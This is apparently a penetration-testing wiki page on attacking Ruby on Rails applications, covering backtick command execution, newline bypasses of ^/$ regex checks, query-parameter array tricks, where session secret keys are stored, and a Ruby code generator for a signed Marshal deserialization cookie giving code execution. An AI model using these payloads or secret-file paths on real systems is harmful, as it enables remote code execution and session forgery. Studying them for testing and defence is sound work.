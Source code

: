 ```yaml
---
description: A common web framework for the Ruby Programming Language
---
```


# Ruby on Rails

{% hint style="info" %}
**Note**: A lot of content here is taken from [this gist](https://gist.github.com/cyberheartmi9/7fe85b61621f4126462d2125c4b19dfe) talking about Ruby on Rails applications. Be sure to check it out for a lot of attack techniques
{% endhint %}

## RCE

In Ruby, if you can execute any code a simple `` ` `` will allow you to execute system commands:

```ruby
`touch a`  # Runs command without output (reverse shell)
puts `id`  # Prints output
```

## Regular Expressions

In ruby you can match a string to some regex in two simple ways:

```ruby
a="some text containing abbbbc to match"

if a =~ /ab+c/
    puts "match"
end

if a.match(/ab+c/)
    puts "match"
end
```

These two ways are identical to eachother, but not the same as many other programming languages. The change is that **Regular Expressions are multi-line by default**. In some languages this is represented as another argument, or `/m` at the end, but in Ruby this is the default.&#x20;

The multi-line mode makes `^` and `$` act differently. Normally, these would represent the start and end of the **whole string**. But in multi-line mode these are the start and end of the **line**. This means that if there are newlines characters in the string, the `^` for example could match against a line earlier or later in the string.&#x20;

Many regular expressions use these characters to sanitize user input, and to tries to if the whole string follows a certain pattern. But in Ruby, if you can get a newline into the string, any of the lines just needs to match. So one line can follow the pattern, but another line can be some arbitrary payload that gets past the check.&#x20;

Here's an example:

```ruby
a="foo\nbar"

if a =~ /^foo$/  # Tries to match only "foo"
    puts "match"  # "bar" gets injected
end
```

Also see the whole chapter on [regular-expressions-regex.md](../../languages/regular-expressions-regex.md "mention") for more details on the syntax.&#x20;

## URL Parameters

Similarly to [php.md](../../languages/php.md "mention"), Ruby on Rails allows you to put arrays in query parameters:

```url
?user[]=first&user[]=second
```

This will result in a `params` variable like this:

```ruby
{"user" => ["first","second"]}
```

You can even use named array keys to create objects inside:

```url
?user[name]=hacker&user[password]=hunter2
```

```ruby
{"user" => {"name" => "hacker", "password" => "hunter2"}}
```

Finally, you can create `nil` values by not providing a value, which might break some things:

```
?user[name]
```

```ruby
{"user" => {"name" => nil}}
```

See [1.1.2 - Multiparameter attributes](https://gist.github.com/cyberheartmi9/7fe85b61621f4126462d2125c4b19dfe#file-attacking-ruby-on-rails-applications-L165) and [1.1.3 - POST/PUT text/xml](https://gist.github.com/cyberheartmi9/7fe85b61621f4126462d2125c4b19dfe#file-attacking-ruby-on-rails-applications-L188) for more input tricks like these.&#x20;

## Sessions

If you can find the Secret Key used for verifying sessions, you can do a lot. Some common locations are:

* `config/environment.rb`
* `config/initializers/secret_token.rb`
* `config/secrets.yml`
* `/proc/self/environ` (if it's just given via an ENV variable)

### Forging sessions

First of all, you can of course sign your own data to create arbitrary objects that might bypass authentication or anything else. See [this code](https://gist.github.com/cyberheartmi9/7fe85b61621f4126462d2125c4b19dfe#file-attacking-ruby-on-rails-applications-L374-L414) as an example to serialize your own data.&#x20;

### Insecure Deserialization

Ruby on Rails cookies use Marshal serialization to turn objects into strings, and then back into objects for deserialization.&#x20;

For Ruby 3 you can use a piece of code like this to create a marshal payload executing any Ruby code:

```ruby
 def build_cookie
    code = "eval('whatever ruby code')"
    marshal_payload = Rex::Text.encode_base64(
      "\x04\x08" +
      "o" +
      ":\x40ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy" +
      "\x07" +
              ":\x0E@instance" +
                      "o" + ":\x08ERB" + "\x06" +
                              ":\x09@src" +
                                      Marshal.dump(code)[2..-1] +
              ":\x0C@method" + ":\x0Bresult"
    ).chomp
    digest = OpenSSL::HMAC.hexdigest(OpenSSL::Digest::Digest.new("SHA1"),
      SECRET_TOKEN, marshal_payload)
    marshal_payload = Rex::Text.uri_encode(marshal_payload)
    "#{marshal_payload}--#{digest}"
  end
```

**More References**

* [2.1 - Sessions](https://gist.github.com/cyberheartmi9/7fe85b61621f4126462d2125c4b19dfe#file-attacking-ruby-on-rails-applications-L374-L414)
* [PayloadsAllTheThings/Ruby](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md)
* [YAML example](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)
